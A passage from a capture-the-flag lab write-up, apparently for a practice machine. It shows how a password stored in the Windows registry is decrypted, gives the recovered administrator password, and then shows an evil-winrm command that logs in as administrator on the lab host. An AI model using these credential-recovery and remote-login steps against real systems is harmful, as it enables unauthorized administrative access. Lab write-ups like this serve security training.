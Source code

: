 * <mark style="color:yellow;">Replace the hex string cipher part with the REG\_BINARY you received from the registry query</mark>

<figure><img src="../../../.gitbook/assets/image (5) (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upon executing this script, I get the value !R3m0te!

### Evil-WinRM for the win

```
evil-winrm -i 10.129.77.90 -u administrator                                                                       Fri 30 Sep 2022 08:16:43 PM EDT
Enter Password: !R3m0te!


Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
